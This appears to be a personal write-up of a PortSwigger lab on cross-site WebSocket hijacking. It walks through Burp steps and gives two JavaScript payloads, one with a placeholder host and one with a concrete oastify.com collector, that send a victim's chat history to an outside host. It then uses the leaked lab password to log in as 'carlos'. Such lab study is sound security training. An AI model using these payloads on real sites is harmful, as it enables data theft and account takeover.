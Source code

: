 # Cross-site WebSocket hijacking

## This online shop has a live chat feature implemented using [WebSockets](https://portswigger.net/web-security/websockets).

## To solve the lab, use the exploit server to host an HTML/JavaScript payload that uses a [cross-site WebSocket hijacking attack](https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking) to exfiltrate the victim's chat history, then use this gain access to their account.

### Note: burpsutepro use bbcause of burpcollector

1.  Click "Live chat" and send a chat message.
2.  Reload the page.
3.  In Burp Proxy, in the WebSockets history tab, observe that the "READY" command retrieves past chat messages from the server.
4.  In Burp Proxy, in the HTTP history tab, find the WebSocket handshake request. Observe that the request has no [CSRF](https://portswigger.net/web-security/csrf) tokens.
5.  Right-click on the handshake request and select "Copy URL".
6.  In the browser, go to the exploit server and paste the following template into the "Body" section:

```html
<script>
  var ws = new WebSocket("wss://your-websocket-url");
  ws.onopen = function () {
    ws.send("READY");
  };
  ws.onmessage = function (event) {
    fetch("https://your-collaborator-url", {
      method: "POST",
      mode: "no-cors",
      body: event.data,
    });
  };
</script>
```

replace lab url
to get wss you need to intercept chat url forword request many times

```html
<script>
  var ws = new WebSocket(
    "wss://0a9f00c504262766882d267500d900fa.web-security-academy.net/chat"
  );
  ws.onopen = function () {
    ws.send("READY");
  };
  ws.onmessage = function (event) {
    fetch("https://0978p2vflxtt8a455g4x7se73y9pxgl5.oastify.com", {
      method: "POST",
      mode: "no-cors",
      body: event.data,
    });
  };
</script>
```

on burp collector pull request
one of the http reuest have json

```json
{
  "user": "Hal Pline",
  "content": "No problem carlos, it&apos;s bx6anovwp7h17q9c53nk"
}
```

bx6anovwp7h17q9c53nk => password
carlos => user
enter details and lab solved
